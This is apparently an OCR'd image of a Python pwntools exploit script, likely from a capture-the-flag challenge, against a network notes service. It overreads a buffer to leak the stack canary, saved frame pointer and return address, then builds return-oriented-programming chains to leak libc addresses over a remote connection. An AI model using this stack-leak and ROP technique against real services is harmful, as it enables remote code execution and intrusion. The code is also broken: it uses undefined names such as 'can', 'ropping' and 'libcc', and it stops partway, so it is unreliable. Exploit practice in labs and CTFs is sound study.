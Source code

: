 ```python

def copy_to(offset, size):
	con.send(p8(2))
	con.send(p16(offset))
	con.send(p8(size))


def read_notes(size=0):
	if size == None:
		con.send(p8(3))
		data = con.recvall()
	else:
		con.send(p8(3))
		data = con.recv(size)
	return data


def rop(can, rbp, ropp):
	padding = p64(0x4141) + p64(can) + p64(rbp) + ropp.chain()
	deliv(padding)
	write_to(val=len(padding))
	copy_to(offset=0, size=len(padding))
	f = read_notes(1024 + len(padding))
	return f


# Fill the buffer and read the stack
write_to()
# Use binary function to read notes from offset
copy_to(1024, 32)
# Read notes from the end of the buffer
data = read_notes(1056)[1024:]

# Address of the canary
canary = u64(data[8:16])
# Pointer for current stack frame 
rbp = u64(data[16:24])
# Pointer for next instruction
rip = u64(data[24:])

libc_call_address = rip - 0xf54 #address libc exit(0)

# https://pwntools.readthedocs.io/en/stable/elf/elf.html
efi = ELF(EXEC, checksec=False)
efi.address = libc_call_address 

# Return Oriented Programming
# https://pwntools.readthedocs.io/en/stable/rop/rop.html
ropp = ROP(efi) 
ropp.write(4, efi.got['write'])

# Enstablish a new connection
con = remote(host, port)
rop(can, rbp, ropping)
libc_address = u64(con.recv(8))


efi2 = ELF(LIBC, checksec=False)
efi2.address = libcc - efi2.symbols['write']

# Return Oriented Programming
# https://pwntools.readthedocs.io/en/stable/rop/rop.html
rop2 = ROP(efi2)
```